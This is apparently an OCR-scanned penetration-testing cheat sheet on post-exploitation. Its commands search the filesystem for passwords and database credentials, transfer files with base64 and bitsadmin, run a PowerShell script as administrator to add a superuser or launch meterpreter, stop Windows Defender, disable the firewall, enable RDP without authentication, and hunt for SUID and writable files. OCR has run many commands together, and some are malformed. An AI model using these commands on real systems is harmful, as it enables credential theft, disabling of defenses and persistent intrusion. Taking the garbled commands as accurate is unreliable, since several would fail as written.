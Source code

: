 # **Post Exploitation**
Post-exploitation is a phase after an attacker has successfully breached a system. During this stage, the focus shifts from gaining initial access to maintaining control and further exploring the compromised environment. This involves activities such as privilege escalation, lateral movement within the network, data exfiltration, and establishing persistent access. Post-exploitation techniques aim to maximize the attacker's control over the compromised system and gather valuable information without raising suspicion.

```
grep -rnw '/' -ie 'pass' --color=alwaysgrep -rnw '/' -ie 'DB_PASS' --color=alwaysgrep -rnw '/' -ie 'DB_PASSWORD' --color=alwaysgrep -rnw '/' -ie 'DB_USER' --color=always
```

## **File Upload on linux systems via base64 encoding Converting a file to base64**

Once the file is converted to base64, you can just create a new file on the remote system and copy the base64 output of the above file into it. Next step would be to reverse the base64 to binary

```
cat fileWithBase64Content | base64 -d > finalBinary
```

You can also use the smbserver.py from Impacket’s repo to host a temporary smb server and fetch files in windows from remote smb servers using the net use command.

## **PSexec Shells of Remote Systems**

Eg: Get cmd.exe shell of remote system with user administrator and password

## **Powershell Sudo for Windows**

There maybe times when you know the creds to admin, but will have a low privileged shell. Unlike Linux, we cannot sudo on windows machines. So, I wrote a simple powershell script for that which can run a separate file as admin. You can run a batch file to add a new superuser or just execute a meterpreter binary as admin. The below command is to be run in a powershell window:

```
​$pw= convertto-securestring "EnterPasswordHere" -asplaintext -force$pp = new-object -typename System.Management.Automation.PSCredential -argumentlist "EnterDomainName\EnterUserName",$pw$script = "C:\Users\EnterUserName\AppData\Local\Temp\test.bat"Start-Process powershell -Credential $pp -ArgumentList '-noprofile -command &{Start-Process $script -verb Runas}'
```

If however you want to run the powershell from a cmd prompt, you can run store the above command in a xyz.ps1 file and run it in cmd as below:

```
powershell -ExecutionPolicy Bypass -File xyz.ps1​
```

Download files in Windows with

bitsadmin bitsadmin /transfer mydownloadjob /download /priority normal http:///xyz.exe C:\Users\\%USERNAME%\AppData\local\temp\xyz.exe

Disable firewall/defender and enable RDP for all Sometimes you will have the admin creds and may require an RDP Session to find out what exactly is going on in the backend for post exploitation. Below commands will help you disable firewall and enable RDP over insecure connections

```
sc stop WinDefendnetsh advfirewall show allprofilesnetsh advfirewall set allprofiles state offnetsh firewall set opmode disablereg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /freg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```

Print files with the line number where the string is found grep -rnw '/' -ie 'password' --color=always

## **Find files with SUID permission**

```
find / -perm -4000 -type f 2>/dev/null
```

## **Find files with open permissions**

```
 find / -perm -777 -type f 2>/dev/null
```

## **Find files with SUID permission for current user**

```
find / perm /u=s -user `whoami` 2>/dev/nullfind / -user root -perm -4000 -print 2>/dev/null
```

## **Find files with writable permission for current user or current group**

```
find / perm /u=w -user `whoami` 2>/dev/nullfind / -perm /u+w,g+w -f -user `whoami` 2>/dev/nullfind / -perm /u+w -user `whoami` 2>/dev/nul
```

## **Find directories with writable permissions for current user or current group**

```
find / perm /u=w -type -d -user `whoami` 2>/dev/nullfind / -perm /u+w,g+w -d -user `whoami` 2>/dev/null
```

In order to move horizontally on the network we need to know as much about the machine as possible. We need to loot it. These are some things that must be done on every compromised machine.

### **Tcp dump**

Who else is connected to the machine?

### **Dump the hashes**

It is always good to have a list of all the hashes and crack them. Maybe someone is reusing the password.

### **To what is the machine connected?**

- netstat

- ipconfig

### **Email and personal files**

### **Logs</a>**

​ ​
